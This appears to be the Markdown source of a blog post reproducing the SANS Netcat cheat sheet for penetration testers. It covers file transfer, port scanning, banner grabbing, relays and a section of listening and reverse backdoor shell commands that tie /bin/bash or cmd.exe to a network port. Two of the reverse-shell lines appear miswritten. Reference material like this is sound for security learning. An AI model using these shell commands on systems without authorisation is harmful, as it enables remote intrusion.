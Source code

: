 ```yaml
---
layout: post
title: "Netcat Cheat Sheet"
date: 2016-05-22 22:12:33 -0700
categories: netcat, pentest
---
```

[Netcat][netcat-link] is considered to be the TCP/IP swiss army knife and is capable of writing data across the network. Its ability to create a connection to almost anything makes it an easy to use utility that is part of any infosec professionals toolbox. This cheat sheet provides tips and tricks for Netcat on both Linux and Unix.

All credit for putting together this cheat sheet goes to Ed Skoudis and [SANS][sans-link]

### Fundamentals

#### Netcat client
{% highlight bash %}
nc [TargetIPaddr] [port]
{% endhighlight %}
Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

#### Netcat listener
{% highlight bash %}
nc -l -p [LocalPort]
{% endhighlight %}
Create a Netcat listener on arbitrary local port [LocalPort]
<br />  
---

### File Transfer

#### Push a file from client to listener
{% highlight bash %}
nc -l -p [LocalPort] > [outfile]
{% endhighlight %}
Listen on [localPort], store results in [outfile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] < [infile]
{% endhighlight %}
Push [infile] to [TargetIPaddr] on [port]

#### Pull file from listener back to client
{% highlight bash %}
nc -l -p [LocalPort] < [infile]
{% endhighlight %}
Listen on [LocalPort], prep to push [infile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] > [outfile]
{% endhighlight %}
Connect to [TargetIPaddr] on [port] and retrieve [outfile]

---

### TCP Port Scanner

#### Port scan an IP Address
{% highlight bash %}
nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)

The randomized ports (-r) switch can be used to choose port numbers randomly in the range

---

### TCP Banner Grabber

#### Grab the banner of TCP services running on an IP address from Linux
{% highlight bash %}
echo "" | nc -v -n -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range form [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second
for a connection to occur (-w1). Then send a blank string to the open port and print out any banner
received in response

Add -r to randomize destination ports within the range

Add -p [port] to specify a source port

---

### Backdoor Shells

#### Listening backdoor shell on Linux
{% highlight bash %}
nc -l -p [LocalPort] -e /bin/bash
{% endhighlight %}

#### Listening backdoor shell on Windows
{% highlight bash %}
nc -l -p [LocalPort] -e cmd.exe
{% endhighlight %}

Create a shell on a local port [LocalPort] that can then be accessed using a fundamental
Netcat client

#### Reverse backdoor shell on Linux
{% highlight bash %}
nc [YourIPaddr] [port] -r /bin/bash
{% endhighlight %}

#### Reverse backdoor shell on Windows
{% highlight bash %}
nc [YourIPaddr] [port] -e /bin/bash
{% endhighlight %}

Create a reverse shell that will attempt to connect to [YourIPaddr] on a local [port]. This shell can then be captured on local port [port]. This shell can then be captured using a fundamental netcat listener

---

### Netcat Relays on Linux
To begin, create a FIFO (named pipe) called backpipe:
{% highlight bash %}
cd /tmp
mknod backpipe p
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
nc -l -p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
client connected to [TargerIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from any connection on [LocalPort_1] to any
connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
nc [PreviousHopIPaddr] [port] 0<backpipe | [NextHopIPaddr] [port2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Relays on Windows
To begin, enter a temporary directory where we will create .bat files:
{% highlight bash %}
cd c:\temp
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
echo nc [TargetIPaddr] [port] > relay.bat
nc -l -p [LocalPort] -e relay.bat
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
Client connected to [TargetIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
echo nc -l -p [LocalPort_2] > relay.bat
nc -l -p [LocalPort_1] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from any connection on [LocalPort_1] to
any connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
echo nc [NextHopIPaddr] [port2] > relay.bat
nc [PreviosHopIPaddr] [port] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from the connection to [PreviousHopIPaddr]
on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Command Flags
{% highlight bash %}
nc [options] [TargetIPaddr] [ports(s)]
{% endhighlight %}

The [TargetIPaddr] is simply the other side's IP address or domain name. It is
required in client mode of course (because we have to tell the client where to
connect), and is optional in listen mode.

-l : Listen mode (default is client mode)

-L : Listen harder (supported only on Windows version of Netcat). This     option makes Netcat a persistent listener which starts listening again after a client disconnects

-u : UDP mode (default is TCP)

-p : Local port (In listen mode, this is the port listened on. In client mode, this is the source port for all packets sent)

-e : Program to execute after connection occurs, connecting STDIN and STDOUT to the program

-n : Don't perform DNS lookups on names of machines on the other side

-z : Zero-I/O mode (Don't send any data, just emit a packet without payload)

-wN : Timeout for connects, waits for N seconds after closure of STDIN. A Netcat listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running.

-v : Be verbose, printing out messages on Standard Error, such as when a connection occurs

-vv : Be very verbose, printing even more details on Standard Error

[netcat-link]: https://en.wikipedia.org/wiki/Netcat
[sans-link]: https://www.sans.org/